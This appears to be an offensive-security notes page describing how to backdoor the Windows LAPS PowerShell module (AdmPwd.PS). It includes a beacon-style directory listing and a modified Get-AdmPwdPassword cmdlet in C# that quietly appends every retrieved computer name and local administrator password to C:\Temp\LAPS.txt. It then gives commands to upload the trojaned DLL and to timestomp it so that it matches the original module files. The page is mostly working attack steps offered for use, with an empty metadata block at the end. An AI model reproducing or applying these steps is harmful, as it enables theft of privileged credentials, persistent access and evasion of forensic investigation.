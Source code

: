 # Local Administrator Password Solution (LAPS) backdoor
Location of the LAPS scripts:
```sh
beacon> ls
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
		  dir     03/10/2022 17:09:59   en-US
 30kb     fil     03/10/2022 00:38:16   AdmPwd.PS.dll
 5kb      fil     03/10/2022 14:40:58   AdmPwd.PS.format.ps1xml
 4kb      fil     03/10/2022 14:40:58   AdmPwd.PS.psd1
 33kb     fil     03/10/2022 08:02:08   AdmPwd.Utils.dll
```

1. Backdoor the `Get-AdmPwdPassword`: `https://github.com/GreyCorbel/admpwd`.
    ```powershell
    [Cmdlet("Get", "AdmPwdPassword")]
    public class GetPassword : Cmdlet
    {
        [Parameter(Mandatory = true, Position = 0, ValueFromPipeline = true)]
        public String ComputerName;

        protected override void ProcessRecord() {
            foreach (string dn in DirectoryUtils.GetComputerDN(ComputerName))
            {
                PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);
                #added
                var line = $"{pi.ComputerName} : {pi.Password}";
                System.IO.File.AppendAllText(@"C:\Temp\LAPS.txt", line);
                #added end
                WriteObject(pi);
            }
        }
    }
    ```
  
2. Upload `AdmPwd.PS.dll` to the machine.
    > beacon> upload C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll

3. Clone the `AdmPwd.PS.psd1` timestamp and apply it to `AdmPwd.PS.dll`.
    > beacon> timestomp AdmPwd.PS.dll AdmPwd.PS.psd1


## Tools
########
########


```meta
ttp: T1000
requirements:
results: 
description: 
```